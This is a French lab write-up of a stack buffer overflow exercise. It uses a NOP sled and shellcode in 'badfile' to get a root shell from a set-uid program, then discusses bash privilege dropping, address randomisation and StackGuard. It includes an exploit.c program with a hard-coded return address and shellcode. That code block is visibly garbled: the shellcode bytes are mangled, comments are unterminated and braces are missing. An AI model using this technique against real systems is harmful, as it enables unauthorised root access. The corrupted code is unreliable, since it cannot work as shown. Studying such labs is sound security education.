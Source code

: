 # demo-buffer-overflow

Le programe stack.c contient une vulnéarbilité exploitable par injection dans le buffer, qui est assez grand 517 octets. Afin de gagner les privilèges root, il sera executé comme set-uid et le buffer contiendra le shellcode necessaire.

Note: Cela à été fait sur une platforme i486 gnu/linux.

## Task I

-fno-stack-protector va désactiver la stack smashing protection mechanism de gcc, sur le programe stack.

j'ai modifié le badfile pour y inserer 517 caractère "0x90", code hexa de l'instruction NOP, qui s'avèrera très utile. L'execution de stack renvoi un segmentation fault. l'analyse du bug avec gdb retourne: program terminated with signal 11, Segmentation Fault.. l'explication est aussi donnée: address 0x90909090 is unreacheable.

info registers sur la console gdb, retourne que eip l'instruction pointer est a 0x90909090. Le programe a été hacker, et son flux détourné en ecrasant l'addresse de retour de la fonction bof().

L'idée est de mettre le shellcode quelque part en memoire, à la fin du call stack, est d'utilisé l'addresse de retour, qu'il faut bien determiner, pour y pointer sur un des NOP, le programme va glisser le long de tous ces NOP jusqu'à atteindre le shellcode. 

Avec un des privilège root sur le programme stack de type set-uid, notre payload de shellcode nous donnera un accés root sur la machine.

strcopy() étant à l'origine de la plupart des attacks par bof, la tendance des développeurs est de l'éviter. Des overflow peuvent aussi aparaitre dans les boucles mal indexé.

Le programe exploit.c généré est:

```char shellcode[]= 
"310"             /* xorl    
"50"                 /* pushl   
"68""//sh"           /* pushl   0x6e69622f            */ 
"893"             /* movl    
"50"                 /* pushl   
"53"                 /* pushl   
"901"             /* movl    
"99"                 /* cdql                           */ 
"00b"             /* movb    0x80                  */ 
; 

void main(int argc, char **argv) 
        
        char buffer[517]; 
        FILE *badfile; 
 
        /* Initialize buffer with 0x90 (NOP instruction) */ 
        memset(&buffer, 0x90, 517); 
         
        /* we need to over write the return address by our own one, this will do it. The address was chosen after incrementing (randomly) the str variable address of the bof() function.. */ 
        long addr = 0xbffff353; 
        long *ptr = (long *) (buffer + 24); 
        *ptr = addr; 
         
        /* we put the shellcode at the end of the buffer, so pointing randomly before it would execute it, this technique is called nop-sled, there is plenty of others */ 
        memcpy(&buffer[517-strlen(shellcode)], shellcode, strlen(shellcode)); 
         
        /* Save the contents to the file "badfile" */ 
 	badfile = fopen("./badfile", "w"); 
        fwrite(buffer, 517, 1, badfile); 
        fclose(badfile); ```

L'execution de stack retourne alors ce qu'on voit sur la figure . l'userid effective est bien root.

J'ai determiner l'addresse de retour en choisissant au hazard une addresse un peu plus loin que str (info args), qu'on determine avec le debugger. en effet en executant pas à pas le programme, et en visualisant les variables, on récupère &str=0xbffff317.

Avec l'instruction memcpy(&buffer[517-strlen(shellcode)], shellcode, 
strlen(shellcode)); on met le shellcode à la fin du badfile, après tous les nop.

buffer + 24 après quelques essais, en remplissant la mémoire peut à peu de façon dichotomique, et en réservant 4 octets à l'adresse.

on retrouve l'addresse de retour de call bof dans la sortie du programe objdump -d: 8048494, visualisé le stack nous permet de retrouver cette addresse, [figure].. on essaye de l'ecraser avec le badfile, en donnant une addresse plus utile...

On examine la mémoire et on trouve bien notre addresse de retour..

On utilise la commande d'exploration pour voir le contenue du stack.. tout y est, même l'addresse du shell, qu'il suffira de copier après dans l'exploit pour rediriger le programme vers elle.

# Task II 

Yes we still got a shell as a root user.. c'est pas normal, bash possède un mechnisme de sécurité, qui lâche les privilèges setuid, quand ils sont possédé par un root. En effet il fallait recompilé exploit :)

On obtient un shell non root.
    
Using /bin/sh as bourne again shell    

Pour obtenir un shell root, dans ce cas, on pourait modifier le shellcode; on y inserant l'equivalent en optcode de l'instruction setuid(0). On peut utilisé metasploit pour générer ce code.

# Task III 

La randomisation de l'addresse tend à rendre la tâche du hackeur plus difficile, mais pas impossible. Elle applique des algorithmes qui range de façon aléatoires, dans la mémoire, les données clef d'un programme, notemment le call stack.. Ce qui augmente l'espace memoire sur lequelle l'attaquant aura à deviner.

On effet en modifiant le programe pour qu'il affiche l'addresse du buffer à chaque execution on obtient des résultats tous à fait aléatoire.

Randamized memory allocation
    
Faire tourner une ou plusieurs fois ne m'a pas servit à grand chose..

# Task IV 

J'ai eu un segmentation fault..

definition interessante: "StackGuard is a simple compiler technique that
virtually eliminates buffer overflow vulnerabilities with only modest
performance penalties." 

Ce que ça fait c'est qu'elle place lors de l'execution, un mot dans chauque instruction de retour, choisi au hazard à l'execution à partir du fichier /dev/urandom s'il existe.. ou avec un hash sur le timestamp..
ceci va arreter l'execution si la valeur de retour d'une fonction à été ecraser. Cela rend plus difficile l'attack, plusieurs solutions néamoins existe, notemment essayeé d'ecraser d'autres pointeurs que l'adresse de retour..
